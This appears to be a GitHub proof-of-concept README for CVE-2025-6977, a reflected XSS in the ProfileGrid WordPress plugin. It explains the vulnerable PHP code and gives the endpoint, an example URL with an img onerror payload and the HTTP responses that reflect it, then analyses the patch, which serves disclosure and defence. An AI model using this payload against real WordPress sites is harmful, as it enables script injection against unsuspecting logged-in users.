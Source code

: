 # CVE-2025-6977 – Reflected XSS in ProfileGrid WordPress Plugin (Unauthenticated)
- **CVE ID**: [CVE-2025-6977](https://www.cve.org/CVERecord?id=CVE-2025-6977)
- **Vulnerability Type**: Reflected Cross-Site Scripting (XSS)
- **Plugin Affected**: ProfileGrid – User Profiles, Groups and Communities
- **Affected Version(s)**: ≤ 5.9.5.4
- **CVE Discovered By**: [Kenneth Billones (Wordfence)](https://www.wordfence.com/threat-intel/vulnerabilities/researchers/kenziy)
- **Exploit PoC Author**: [CANITEY](https://github.com/canitey)
## Description
The ProfileGrid – User Profiles, Groups and Communities plugin for WordPress is vulnerable to Reflected Cross-Site Scripting via the ‘pm_get_messenger_notification’ function in all versions up to, and including, 5.9.5.4 due to insufficient input sanitization and output escaping. This makes it possible for unauthenticated attackers to inject arbitrary web scripts in pages that execute if they can successfully trick a logged-in user into performing an action such as clicking on a link.

The vulnerable endpoint is: `/wp-admin/admin-ajax.php?action=pm_get_messenger_notification&timestamp=<vulnerable parameter>&activity=&tid=1`
## Vulnerable snippet
```php
// public/class-profile-magic-public.php
public function pm_get_messenger_notification() { // (1)
	$pmmessenger = new PM_Messenger();
	$timestamp   = filter_input( INPUT_GET, 'timestamp' );
	$activity    = filter_input( INPUT_GET, 'activity' );
	$tid        = filter_input( INPUT_GET, 'tid' );
			 if($tid!=0)
			 {
				$return     = $pmmessenger->pm_get_messenger_notification( $timestamp, $activity, $tid );
				echo $return;
			 }
	die;
}
```
Before diving into the code snippet above, let's first explain the functions involved.
1. `filter_input(<type>, '<variable name>')` this function has 2 main parameters to be passed (we will be introduced to another one shortly), 
	1. `<type>` One of the `INPUT_*` constants, in our case `INPUT_GET` this variable means that we will receive data from a get parameter.
	2. `<variable name>` in our context it means the get parameter name the we will parse the value from.

As shown in the code snippet above.

The function `pm_get_messenger_notification` uses the `filter_input` function in 2 positions to get the `timestamp` value and put it in the corresponding variable. The issue lies in the fact that this implementation the `pm_get_messenger_notification` function get the value with no filtering or sanitization and pass them to `pm_get_messenger_notification` method of the `$pmmessenger` object (that's a different function) and I will explain what is the problem with that via the next code snippet.

```php
//  includes/class-profile-magic-messenger.php
// The snippet is more than 33 line so I cut the unneccessary line
public function pm_get_messenger_notification( $timestamp, $activity, $tid ) {

// -- snip --

			$result = array( 
				'activity'         => $activity,
				'data_changed'     => $data2,
				'typing_timestamp' => $last_change_in_typing,
				'timestamp'        => $last_change_in_thread,
				'timexxx'          =>$timestamp, (2)
				'last_ajax'        =>$last_ajax_call,
			);

					$json =  wp_json_encode( $result );
					 return $json;

	}

			$result =array();
			$json   = wp_json_encode( $result );
			return $json;

}
```

as shown at (2), the function uses `timestamp` directly from the passed parameter and return it as in json response, so by passing an `XSS` payload to the endpoint triggering the `pm_get_messenger_notification` function at (1) it will pass with no filters to the method `pm_get_messenger_notification` and then be displayed in response, and because the `Content-Type` is declared as `text/html` for the response this would allow the XSS to be executed.

## Exploitation
After installing wordpress, with the target version of the plugin, XSS can be triggered via the following endpoing:
 `http://vulnerable.word.press/profilegrid/wp-admin/admin-ajax.php?action=pm_get_messenger_notification&timestamp=1753214905&activity=&tid=1`
 via the `timestamp` parameters.

PS: To have the payload reflected to you, you need to have an active session and then visit the URL, other than that the response would be 0

---
The is the normal response without XSS payload
```
HTTP/1.1 200 OK
Date: Fri, 25 Jul 2025 17:09:25 GMT
Server: Apache/2.4.58 (Ubuntu)
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0, no-store, private
Referrer-Policy: strict-origin-when-cross-origin
X-Frame-Options: SAMEORIGIN
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 94
Keep-Alive: timeout=5, max=99
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

{"activity":"","data_changed":true,"typing_timestamp":false,"timestamp":1753459470}
```

And this is the response while passing `<img src=x onerror=alert()>` to the `timestamp` parameter
`/wp-admin/admin-ajax.php?action=pm_get_messenger_notification&timestamp=%3Cimg%20src=x%20onerror=alert()%3E&activity=ss&tid=4`
```
HTTP/1.1 200 OK
Date: Fri, 25 Jul 2025 17:11:58 GMT
Server: Apache/2.4.58 (Ubuntu)
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0, no-store, private
Referrer-Policy: strict-origin-when-cross-origin
X-Frame-Options: SAMEORIGIN
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 133
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

{"activity":null,"data_changed":false,"typing_timestamp":false,"timestamp":1753459470,"timexxx":"<img src=x onerror=alert()>","last_ajax":0}
```

### Attached with this README an automated exploit file.

## Patch Analysis
The vulnerability was patched in version **5.9.5.5** of the plugin. The developers addressed the issue by sanitizing the `timestamp` parameter using:
```php
$timestamp = filter_input( INPUT_GET, 'timestamp', FILTER_VALIDATE_INT );
```

An additional preventive measure — which was not implemented — would have been to explicitly set the response content type to JSON:
```php
header('Content-Type: application/json');
```
This would instruct the browser to treat the response as pure JSON, thereby blocking script execution, even if malicious content slipped through. While the input sanitization fix neutralizes the attack, setting the correct `Content-Type` would further harden the response against XSS.

# References
- [CVE Record on CVE.org](https://www.cve.org/CVERecord?id=CVE-2025-6977)
- [Plugin Page – ProfileGrid](https://wordpress.org/plugins/profilegrid-user-profiles-groups-and-communities/)
- [Wordfence Advisory](https://www.wordfence.com/threat-intel/)

